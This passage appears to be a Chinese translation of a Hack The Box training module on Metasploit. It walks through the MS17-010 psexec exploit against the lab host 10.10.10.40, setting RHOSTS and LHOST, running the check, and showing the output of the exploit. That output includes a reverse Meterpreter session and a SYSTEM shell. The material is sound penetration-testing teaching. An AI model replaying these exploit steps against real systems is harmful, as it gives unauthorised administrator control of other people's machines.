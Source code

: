 任何`Required`设置为`yes`的选项都需要设置才能使漏洞利用工作。在这种情况下，我们只有两个选项需要设置：`RHOSTS`，即我们目标的IP（这可以是一个IP、多个IP或包含IP列表的文件）。我们可以使用`set`命令来设置它们：

```Plaintext
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

一旦两个选项都设置好了，我们就可以开始利用了。但是，在运行脚本之前，我们可以先运行一个检查来确保服务器存在漏洞：

```Plaintext
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

  

正如我们看到的，服务器确实存在漏洞。请注意，并非`Metasploit Framework`中的每个漏洞利用都支持`check`功能。最后，我们可以使用`run`或`exploit`命令运行漏洞利用：

```Plaintext
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

正如我们可以看到的，我们已经能够获得对该主机的管理员访问权限，并使用`shell`命令进入交互式shell。这些是使用`Metasploit`来利用远程服务器上的漏洞的基本示例。在Hack The Box平台上有许多退役的机器非常适合练习使用Metasploit。其中一些包括，但不限于：

- Granny/Grandpa
    
- Jerry
    
- Blue
    
- Lame
    
- Optimum
    
- Legacy
    
- Devel
    

稍后，在本模块中，我们将逐步介绍`Nibbles`机器，并展示如何使用`Metasploit`进行利用。`Metasploit`是一个必备的工具，但重要的是不能仅仅依赖它。作为全面发展的测试人员，我们必须知道如何最大限度地利用所有可用的工具，了解为什么有时它们会失败，并知道何时转向手动技术或其他工具。